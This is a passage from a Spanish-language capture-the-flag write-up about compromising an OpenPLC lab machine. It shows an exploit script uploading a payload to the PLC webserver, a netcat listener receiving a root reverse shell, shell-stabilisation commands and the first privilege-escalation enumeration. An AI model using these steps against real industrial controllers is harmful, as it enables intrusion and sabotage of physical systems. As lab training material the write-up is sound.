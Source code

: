 ```bash
[+] Logged in!
[!] Restoring default program...
[+] PLC Stopped!
[+] Cleanup successful!
[!] Uploading payload...
[+] Payload uploaded!
[+] Waiting for 5 seconds...
[+] Compilation successful!
[!] Starting PLC...
[+] PLC Started! Check listener...
[!] Cleaning up...
[+] PLC Stopped!
[+] Cleanup successful!
```
y como vemos obtenemos una shell
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.62] from (UNKNOWN) [10.10.11.7] 34522
bash: cannot set terminal process group (174): Inappropriate ioctl for device
bash: no job control in this shell
root@attica04:/opt/PLC/OpenPLC_v3/webserver# whoami
whoami
root
root@attica04:/opt/PLC/OpenPLC_v3/webserver# 
```

Hacemos un tratamiento de la TTY
```bash
oot@attica04:/opt/PLC/OpenPLC_v3/webserver# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@attica04:/opt/PLC/OpenPLC_v3/webserver# ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm

root@attica04:/opt/PLC/OpenPLC_v3/webserver# export TERM=xterm
root@attica04:/opt/PLC/OpenPLC_v3/webserver# export SHELL=/bin/bash
root@attica04:/opt/PLC/OpenPLC_v3/webserver# stty rows 28 columns 129
```
# [](#header-3)Escalation Privilege

Vemos que nos da una shell como root pero esto de primera es raro solo vemos la flag del usuario
```bash
root@attica04:~# cat user.txt 
***************************2b218
```
Ahora enumeramos el sistema para encontrar la manera de escalar privilegio realmente a root, haciendo ifconfig vemos que tenemos una interfaz wlan0
```bash
root@attica04:/home# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.5  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fe43:463a  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:43:46:3a  txqueuelen 1000  (Ethernet)
        RX packets 39090  bytes 3637737 (3.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 29771  bytes 4666297 (4.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
```